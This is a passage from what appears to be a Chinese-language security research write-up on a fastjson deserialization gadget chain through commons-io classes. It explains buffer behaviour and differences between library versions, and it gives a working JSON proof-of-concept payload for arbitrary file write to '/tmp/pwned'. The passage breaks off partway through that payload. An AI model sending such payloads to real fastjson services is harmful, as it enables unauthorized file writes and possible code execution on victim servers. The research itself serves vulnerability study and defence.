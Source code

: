 ```java
StreamEncoder.implWrite ->
StreamEncoder.writeBytes写文件
```



然而在StreamEncoder.write->implWrite中，如果不满缓冲区（Underflow）会break，缓冲区满才会writeBytes

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027195307686.png)

默认的缓冲区大小是8192

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027195913496.png)



但是传入的BufferedInputStream一块只有4096

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027200003411.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027200032893.png)



利用$ref可以多次调用StreamEncoder.implWrite向同一个缓冲区写入流数据，直到overflow写文件

### POC

commons-io在2.0-2.6和2.7-2.8版本之间各文件的构造函数参数名有些许不同

比如2.5版本下CharSequenceReader有且仅有一个构造函数如下：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027202206789.png)

而2.7版本下CharSequenceReader有三个构造函数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241027202325511.png)



2.0-2.6版本POC：

```json
{
    "x": {
        "@type": "com.alibaba.fastjson.JSONObject",
        "input": {
            "@type": "java.lang.AutoCloseable",
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
                "@type": "org.apache.commons.io.input.CharSequenceReader",
                "charSequence": {
                    "@type": "java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024
            },
            "branch": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.output.WriterOutputStream",
                "writer": {
                    "@type": "org.apache.commons.io.output.FileWriterWithEncoding",
                    "file": "/tmp/pwned",
                    "encoding": "UTF-8",
                    "append": false
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024,
                "writeImmediately": true
            },
```